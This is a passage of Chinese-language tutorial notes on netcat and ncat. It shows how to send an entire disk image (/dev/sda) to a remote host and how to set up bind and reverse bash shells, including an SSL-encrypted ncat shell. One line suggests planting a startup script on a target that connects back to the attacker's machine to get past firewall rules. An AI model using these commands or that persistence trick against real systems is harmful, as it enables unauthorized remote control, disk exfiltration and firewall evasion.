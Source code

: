     客户端
    ```bash
    dd if = /dev/sda | nc -nv ip_address 4444 -q 1
    ```


6. 远程控制
    
    客户端控制服务端

    服务端
    ```bash
    nc -lp 4444 -c bash
    ```

    客户端
    ```bash
    nc -nv   ip_address port
    ```

    反向，客户端控制服务端，客户端主动发送bash给服务端，让服务端控制
    此处的`-c`，表示`shell commands`后面接的是shell的命令

    服务端
    ```bash
    nc -lp 4444 
    ```

    客户端
    ```bash
    nc -nv ip_address port -C bash
    ```

    如果是攻击方，可以通过在目标机器上添加一个启动脚本，脚本内容是通过nc主动连接攻击方的主机，这样做可以绕过防火墙的‘外到内’的规则的过滤

    有点奇怪的是，在ubuntu下载的nc，没有-c的功能(不同发行版的nc是不同的)


---

### ncat

nc的缺点，明文传输、本身没有加密能力、没有身份验证  
ncat可以弥补nc的缺陷，是nc的加强版。在kali，ncat作为单独的安装包出现，在ubuntu，ncat包含在nmap工具包里面

利用ncat，使用管道的方式进行连接

服务端
```bash
ncat -c bash --allow  client_ip_address -vnl port --ssl
```

`--allow`，表示允许哪个ip地址和本机进行连接
`--ssl`，使用ssl加密

客户端
```bash
ncat -nv host_ip_address --ssl
```
